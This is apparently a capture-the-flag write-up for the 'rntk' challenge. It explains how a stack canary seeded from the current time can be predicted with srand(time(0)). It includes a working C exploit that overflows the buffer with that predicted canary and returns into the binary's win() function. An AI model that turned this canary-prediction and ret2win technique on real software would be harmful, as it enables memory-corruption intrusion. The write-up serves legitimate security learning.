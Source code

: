 # rntk
In this challenge we are provided with binary `chal` which is random number generator. After decompiling we can see that it has canary stack protector generated with glibc `random()` function which is seeded with `time`. As `random()` generates [pseduo random](https://www.mathstat.dal.ca/~selinger/random/) numbers, we can very easily generate same number by just seeding `srand()` in other program in the same second. <br>

![preview](images/1.png)

We can see that this challenge is classical ret2win and we just have to overflow the stack and overwrite an address of returnee with address of `win()` function.

![preview](images/2.png)<br>
`main()`:
![preview](images/6.png)<br>
`random_guess()`:
![preview](images/7.png)
## Solution
After quick investigation in gdb I could tell that cannary value is at 44-48 bytes (red) of our input and that 56-60 (purple) bytes overwrite address of the returnee.
![preview](images/3.png)
![preveiw](images/4.png)
So I wrote following code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main()
{
    unsigned int n;
    srand(time(0));
    n = rand();
    unsigned char bytes[4];

    bytes[0] = (n >> 24) & 0xFF;
    bytes[1] = (n >> 16) & 0xFF;
    bytes[2] = (n >> 8) & 0xFF;
    bytes[3] = n & 0xFF;
    printf("2\n"); 
    printf("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK%c%c%c%cMMMMNNNN\xb6\x12\x40\x00", bytes[3],bytes[2],bytes[1],bytes[0]);
    return 0;
}
```
passed it as input to `chal`
## And it works!
![preview](images/5.png)